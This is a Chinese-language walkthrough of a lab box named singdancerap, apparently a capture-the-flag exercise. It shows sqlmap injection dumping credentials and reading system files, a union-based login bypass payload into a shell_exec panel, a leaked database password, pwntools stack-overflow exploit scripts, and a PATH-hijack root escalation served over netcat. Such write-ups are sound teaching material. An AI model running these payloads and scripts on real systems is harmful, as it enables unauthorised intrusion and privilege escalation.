## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.116 -sV -A -p-

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 5d:41:2a:c1:2d:3b:6c:78:b3:af:ae:9d:42:fe:88:b8 (RSA)
|   256 3c:e9:64:eb:84:fe:5c:83:94:07:27:6c:12:14:c8:4c (ECDSA)
|_  256 09:9b:2b:18:de:6c:6d:f8:8b:15:df:6c:0f:c0:7c:b2 (ED25519)
80/tcp    open     http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: News Website
65000/tcp filtered unknown
```

## Gobuster

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.56.116/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50  -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.116/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 3118]
/news.php             (Status: 200) [Size: 1301]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/littlesecrets        (Status: 301) [Size: 324] [--> http://192.168.56.116/littlesecrets/]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

针对这个**/littlesecrets**再次进行扫描

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.56.116/littlesecrets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50  -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.116/littlesecrets
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/login.php            (Status: 200) [Size: 1983]
/manager.php          (Status: 302) [Size: 0] [--> login.php]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## SQL Injection

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5

sqlmap identified the following injection point(s) with a total of 2625 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=123' AND (SELECT 9142 FROM (SELECT(SLEEP(5)))mFLQ)-- TXmn&password=123
---
```

可以看到存在**SQL注入漏洞**

查看数据库

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5 --dbs                                                                                   

available databases [4]:
[*] information_schema
[*] mysql
[*] news_db
[*] performance_schema
```

查看表

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5 -D news_db --tables 

Database: news_db
[2 tables]
+-------+
| news  |
| users |
+-------+
```

获取到用户

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5 -D news_db -T users --dump

Database: news_db
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | password1 | user1    |
| 2  | password2 | user2    |
+----+-----------+----------+
```

但是无法直接登录



这里的注入点在时间盲注，由于我已经知道了**news**的列数，可以返回到新闻主页进行联合注入。

（这里之前走了弯路，盲注会浪费很多时间。。。。

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing"  

---
Parameter: title (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: title=sing' AND 8471=8471 AND 'tXIm'='tXIm

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=sing' AND (SELECT 8023 FROM (SELECT(SLEEP(5)))QuwV) AND 'rjTs'='rjTs

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: title=sing' UNION ALL SELECT NULL,CONCAT(0x717a707871,0x7a6749484b6e754f74666a585a616d494d734a4776796e6f43724c4662434b6a65614d735a4b4745,0x7170707871),NULL-- -
---
```

可以读取文件，发现存在一个**he110wor1d**用户

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/etc/passwd

[*] /root/.local/share/sqlmap/output/192.168.56.116/files/_etc_passwd

[root@kali] /home/kali/singdancerap  
❯ cat /root/.local/share/sqlmap/output/192.168.56.116/files/_etc_passwd |grep /home
he110wor1d:x:1001:1001::/home/he110wor1d:/bin/bash
```

由于中间件是**Apache**，尝试读取配置文件

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/etc/apache2/apache2.conf
```



可以看到网站的路径，因此尝试读取**manager.php**的内容

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/var/www/he110wor1d/littlesecrets/manager.php

....
<?php
session_start();

if (!isset($_SESSION['username'])) {
            header("Location: login.php");
            exit();
}

if ($_SESSION['username'] !== 'he110wor1d_admin') {
            die("Access Denied. You do not have permission to access this page.");
}

$command_output = '';

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['command'])) {
            $command = $_POST['command'];
                $command_output = shell_exec($command);
}
?>

<body>
    <div class="manager-container">
        <h2>Manager Panel</h2>
        <form action="manager.php" method="POST">
            <input type="text" name="command" placeholder="Enter command" required>
            <input type="submit" value="Execute">
        </form>
        <?php if (!empty($command_output)): ?>
            <div class="output">
                <h3>Command Output:</h3>
                <pre><?php echo htmlspecialchars($command_output); ?></pre>
            </div>
        <?php endif; ?>
    </div>
</body>
```

可以看到有一个参数可以控制，但是必须要**session**值正确，这里我尝试过写入**session**文件，但是不起作用。

读取一下**login.php**，看到了基本的登录逻辑，单引号闭合。

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/var/www/he110wor1d/littlesecrets/login.php 

<?php
// Database connection
$servername = "localhost";
$username = "root";
$password = "i_love_sing_dance_rap";
$dbname = "news_db";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

$login_error = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $sql = "SELECT id, username, password FROM users where username='$username'";
    $result = $conn->query($sql);
    if ($result->num_rows > 0) {
        $row = $result->fetch_assoc();
        if ($password === $row['password']) {
            session_start();
            $_SESSION['user_id'] = $row['id'];
            $_SESSION['username'] = $row['username'];
            header("Location: manager.php");
            exit();
        } else {
            $login_error = "Invalid username or password.";
        }
    } else {
        $login_error = "Invalid username or password.";
    }
}
$conn->close();

?>
```

因此可以构造**payload**

```
username:  ' union select 1,'he110wor1d_admin','pass
password:  pass
```



反弹**shell**之后切换用户即可，然后写入**ssh**密钥。







## Root



在用户目录下查找到一个二进制文件**thekey2root**，使用**32位ida**进行反编译

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("echo 'input something:'");
  input(&argc);
  system("echo 'thanks for your input'");
  return 0;
}

int input()
{
  char v1[24]; // [esp+Ch] [ebp-1Ch] BYREF

  return __isoc99_scanf("%s", v1);
}

int sing_dance_rap()
{
  setuid(0);
  setgid(0);
  return system("echo 'Hey,bro! What are you looking for?'");
}
```

可以看到很明显的栈溢出漏洞，让**deepseek**帮助写一个脚本

```
from pwn import *

# 设置上下文和程序路径
context(arch='i386', os='linux')
elf = ELF('./thekey2root')  # 替换为你的程序名

# 获取函数地址
sing_dance_rap_addr = elf.symbols['sing_dance_rap']
system_addr = elf.plt['system']

# 通过调试获取v1的地址（例如：0xffffd0ac）
v1_addr = 0xffe8378c # 替换为实际地址

# 构造payload
payload = b'/bin/sh\x00'        # 将/bin/sh写入缓冲区
payload += b'A' * (32 - len(payload))  # 填充至32字节
payload += p32(sing_dance_rap_addr)    # 覆盖返回地址到sing_dance_rap
payload += p32(system_addr)            # sing_dance_rap返回后执行system
payload += p32(0xdeadbeef)             # system的返回地址（占位）
payload += p32(v1_addr)                # system的参数，指向/bin/sh

# 启动进程并发送payload
p = process('./thekey2root')
p.send(payload)  # 使用send而非sendline避免附加换行符
p.interactive()   # 进入交互模式
```



可以看到成功进入到了**sing\_dance\_rap**函数，现在要想办法控制**system**的参数

由于**input**函数中的数组是在函数内部声明的，也就是一个局部变量，外部无法访问到

因此我们要寻找可以写入或者能利用的字符串，很遗憾并不存在



那就只能查找现有的字符串了





在**C**语言中，如果是以字符串地址作为参数的话，那么函数会按照字节逐个读取，直到遇到 `\0` 才停止

而在上面可以看到的是在**0x804a03e**这个位置，也就是**s**的地址，后面刚好有一个**\\x00**

有了这个合法的字符串，接下来要做的就是体现在**linux**里面，因为实际上函数内执行的是**system("s")**

那么如果存在有一个**s**的二进制文件，而里面刚好有提权部分的代码，就可以执行命令

在本地调试一下

```
[root@kali] /home/kali/singdancerap  
❯ export PATH=.:$PATH   #设置当前目录优先

[root@kali] /home/kali/singdancerap  
❯ cat s            
/bin/bash -p

[root@kali] /home/kali/singdancerap  
❯ chmod +x s
```



可以看到即使不是以**root**身份运行也可以成功

那么现在要做的就是，在靶机上声明环境变量，然后创建可执行文件**（s）**，然后把二进制文件挂载到端口上

```
he110wor1d@singdancerap:~/thekey2root$ cat s
/bin/bash -p
he110wor1d@singdancerap:~/thekey2root$ chmod +x s
he110wor1d@singdancerap:~/thekey2root$ export PATH=.:$PATH
he110wor1d@singdancerap:~/thekey2root$ nc -lvp 12345 -e ./thekey2root
```

然后修改一下**pwn**脚本

```
from pwn import *

# 设置上下文和程序路径
context(arch='i386', os='linux')
elf = ELF('./thekey2root')  # 替换为你的程序名

# 获取函数地址
sing_dance_rap_addr = elf.symbols['sing_dance_rap']
system_addr = elf.plt['system']

s_addr = 0x804a03e # 替换为实际地址

# 构造payload
payload = b'/bin/sh\x00'        # 将/bin/sh写入缓冲区
payload += b'A' * (32 - len(payload))  # 填充至32字节
payload += p32(sing_dance_rap_addr)    # 覆盖返回地址到sing_dance_rap
payload += p32(system_addr)            # sing_dance_rap返回后执行system
payload += p32(0xdeadbeef)             # system的返回地址（占位）
payload += p32(s_addr)

# 启动进程并发送payload
p = remote('192.168.56.116',12345)
p.send(payload)  # 使用send而非sendline避免附加换行符
p.interactive()   # 进入交互模式
```



## Summary

`User`：目录扫描得到隐藏路径，通过**SQL注入**可以查看到文件源码，再次通过联合注入伪造身份，进入到命令执行，通过泄露的数据库密码进行登录，然后切换用户拿到**user.txt**。

`Root`：反编译查看到存在**栈溢出漏洞**，不过没有可以写入的地方，也不存在危险函数返回。这里利用的是覆盖**system**的参数为一个字符串（**\\x00**结尾的合法**linux**文件名），在环境变量将当前目录排在最前面，因此可以直接访问到该目录中的**s**可执行文件，再挂载到端口上，通过**pwntools**的**remote**连接，成功提权。
